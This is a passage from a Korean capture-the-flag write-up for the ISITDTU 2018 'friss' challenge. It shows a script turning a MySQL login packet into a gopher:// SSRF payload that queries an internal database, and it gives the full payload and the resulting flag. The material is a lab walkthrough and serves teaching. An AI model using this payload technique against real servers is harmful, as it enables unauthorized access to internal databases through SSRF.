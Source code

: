 위의 블록으로 지정한 부분이 `MySQL`에서 `Login`을 요청하는 `Raw data`가 된다.  

이제 해당 내용을 복사 해 앞서 구한 파이썬 스크립트에 넣으면 `gopher` 프로토콜을 사용 한 `Request` 내용을 알려 줄 것이다.  

```
$ python ex.py 
Give connection packet of mysql: a800000185a6ff0100000001210000000000000000000000000000000000000000000000737372665f7573657200006d7973716c5f6e61746976655f70617373776f72640066035f6f73054c696e75780c5f636c69656e745f6e616d65086c69626d7973716c045f7069640537313730320f5f636c69656e745f76657273696f6e06352e372e3233095f706c6174666f726d067838365f36340c70726f6772616d5f6e616d65056d7973716c
Give query to execute: select * from ssrf.flag;

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a8%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%73%73%72%66%5f%75%73%65%72%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%37%31%37%30%32%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%33%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%19%00%00%00%03%73%65%6c%65%63%74%20%2a%20%66%72%6f%6d%20%73%73%72%66%2e%66%6c%61%67%3b%01%00%00%00%01
```

마지막에 나온 내용을 복사 해 문제의 입력 창에 넣으면 아래와 같이 flag를 얻을 수 있다.  

![](/images/CTF/ISITDTU2018/friss/friss_06.png)  

```
FLAG : ISITDTU{JUST_4_SSrF_B4B3!!}
```
